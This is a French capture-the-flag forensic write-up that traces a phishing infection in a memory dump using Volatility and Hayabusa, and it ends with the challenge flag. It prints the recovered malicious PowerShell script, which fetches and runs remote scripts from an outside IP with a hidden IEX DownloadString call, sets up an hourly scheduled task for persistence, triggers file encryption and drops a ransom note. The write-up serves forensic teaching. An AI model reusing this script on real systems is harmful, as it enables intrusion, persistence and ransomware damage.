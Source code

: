 # Enquête sur le phishing des JO : Retracer l'attaque

* type: Forensic
* points : 500
* auteur : [Clara Chalumeau aka Clar'hacker](https://www.linkedin.com/in/clara-chalumeau/) 

---


## Partie 1/2

### Synopsis

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite piegée.

Vous avez pour mission de mener l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié.

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ?

Pour résoudre ce challenge, vous devez répondre aux questions suivantes :

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créé ?

3 - Quel script est lancé par cette scheduled task ?

Format du flag SHLK{'nom-fichier'-'scheduled task-'script'}

Exemple 1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}

### First encounter

Un dump, une capture du bureau, et c'est à nous de jouer. Le système a été compromis, à nous de décrouvrir comment.

L'examen rapide de la capture d'écran donne quelques informations qui nous seront certainement utile plus tard

![capture d'écran](./1_RESOLU/Ordi.png)

Cela va tourner autour d'un PDF malveillant, et nous avons la note de rançon, avec ces informations, il est temps de commencer à creuser.

### Méthode 1 full volatility (aka quand on est pas un SoC Analyst, mais que l'on a des idées)

Une des façon de trouver le 1er flag, est de commencer par bien lire ce qui nous est demandé, nous allons donc commencer par rechercher le raccourci malveillant. On sait que sous windows, l'extension sera en .lnk, et grace au screen, on sait que ça sera lié à un PDF. 

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE "*\.pdf\.lnk"
```

La réponse arrive en quelques minutes:

```
0xa70451a45a80.0\Users\clara\Downloads\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk        216
```
Nous avons notre première information. La seconde est un peu plus tricky, mais pas si compliquée à trouver.

Le poste a été chiffré, nous allons donc chercher un script powershell malveillant. Pour cela, nous allons pouvoir nous nous appuyer sur les fichiers EVTX (journaux système Windows) dans notre tâche.

Pour cela, nous allons devoir extraire le fichier qui nous intéresse, nous allons utiliser de nouveau notre ami volatiliy et une petite regex pour trouver ce dont nous avons besoin.

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE ".*powershell.*\.evtx"
```

Le retour arrive rapidement:

```shell
0xa704519a3db0  \Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx    216
```

Une fois la cible trouvée, nous allons devoir l'extraire de la mémoire

```shell
vol -f 1_RESOLU/dump.raw windows.dump --virtaddr 0xa704519a3db0

Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
Cache   FileObject      FileName        Result

DataSectionObject       0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044ea12090.DataSectionObject.Microsoft-Windows-PowerShell%4Operational.evtx.dat
SharedCacheMap  0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044e4f5260.SharedCacheMap.Microsoft-Windows-PowerShell%4Operational.evtx.vacb
```
L'information dont nous avons besoin se situe dans le fichier qui se termine par vacb, un petit passage par evtx_dump pour rendre le fichier lisible, et nous trouvons le script.
```json
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "07925adc-3e1c-4463-a0cc-9d12522ebede",
      "ScriptBlockText": "$IP_addr = '172.21.195.17:5000'\r\n\r\n$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"\r\n$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"\r\n$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'\r\n$TaskFile = 'GetFilesInfo.ps1'\r\n\r\n#Get the lure pdf\r\nInvoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer\r\n\r\n# Open the PDF file with the default PDF viewer\r\nStart-Process -FilePath $fakePlaceOffer\r\n\r\n### Schedule task\r\n$taskName = \"IGotYourFileInfo\"\r\n\r\n# Create the scheduled task that get some file information\r\n$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"\r\nschtasks /create /tn $taskName /sc HOURLY /tr $cmd\r\n\r\n#Encrypt some file\r\n\r\npowershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"\r\n\r\n## Change wallpaper\r\n$webClient = New-Object System.Net.WebClient\r\n$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"\r\n$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"\r\n$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)\r\n\r\n## Set the wallpaper\r\n$regKey = \"HKCU:\\Control Panel\\Desktop\"\r\nSet-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath\r\n$wallpaperStyle = \"3\"\r\nSet-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle\r\n$tileWallpaper = \"0\"\r\nSet-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper\r\n\r\n# Forcer l'actualisation du bureau\r\nStart-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait\r\n\r\n## Create text file\r\n$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"\r\nSet-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent\r\n# Open text file\r\nInvoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"\r\n\r\n"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DeanGilmor",
      "Correlation": {
        "#attributes": {
          "ActivityID": "3476582E-B7DF-0003-AC7D-7634DFB7DA01"
        }
      },
      "EventID": 4104,
      "EventRecordID": 133,
      "Execution": {
        "#attributes": {
          "ProcessID": 13428,
          "ThreadID": 2576
        }
      },
      "Keywords": "0x0",
      "Level": 3,
      "Opcode": 15,
      "Provider": {
        "#attributes": {
          "Guid": "A0C1853B-5C40-4B15-8766-3CF1C58F985A",
          "Name": "Microsoft-Windows-PowerShell"
        }
      },
      "Security": {
        "#attributes": {
          "UserID": "S-1-5-21-1569816960-1500504362-1823058107-1000"
        }
      },
      "Task": 2,
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2024-06-07T19:29:08.462113Z"
        }
      },
      "Version": 1
    }
  }
}
```

Le responsable est donc:

```powershell
ScriptBlockText": "$IP_addr = '172.21.195.17:5000'

$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"
$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"
$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'
$TaskFile = 'GetFilesInfo.ps1'

#Get the lure pdf
Invoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer

# Open the PDF file with the default PDF viewer
Start-Process -FilePath $fakePlaceOffer

### Schedule task
$taskName = \"IGotYourFileInfo\"

# Create the scheduled task that get some file information
$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"
schtasks /create /tn $taskName /sc HOURLY /tr $cmd

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"
$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = \"HKCU:\\Control Panel\\Desktop\"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = \"3\"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = \"0\"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait

## Create text file
$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"
Set-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent
# Open text file
Invoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"
```

Voilà, nous avons désormais la totalité des informations pour créer le flag

```
SHLK{Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk-IGotYourFileInfo-GetFilesInfo.ps1}
```

### Méthode 2 on industrialise un peu tout ça (aka on fait chauffer la tronçoneuse préparée hayabusa)

La méthode avec volatility est bien, mais elle est fastidieuse, on doit convertir nos evtx en json, quand on ne sais pas où chercher, cela peut prendre du temps, et s'il existait une alternative ?

Il existe deux outils pour cela, [Chainsaw](https://github.com/WithSecureLabs/chainsaw) et [Hayabusa](https://github.com/Yamato-Security/hayabusa). Ils permetent de parser les logs EVTX sans conversion préalable, et permettent d'autres action Uber cool.

Nous allons utiliser Hayabusa et son options "search". La team a signée son méfait dans le notepad, nous allons pouvoir chercher le mot "HAMOR" dans les logs.

Cette partie se fait une fois que tout les logs ont été extrait et renommé en .evtx

![retour Hayabusa](./1_RESOLU/hayabusa.png)
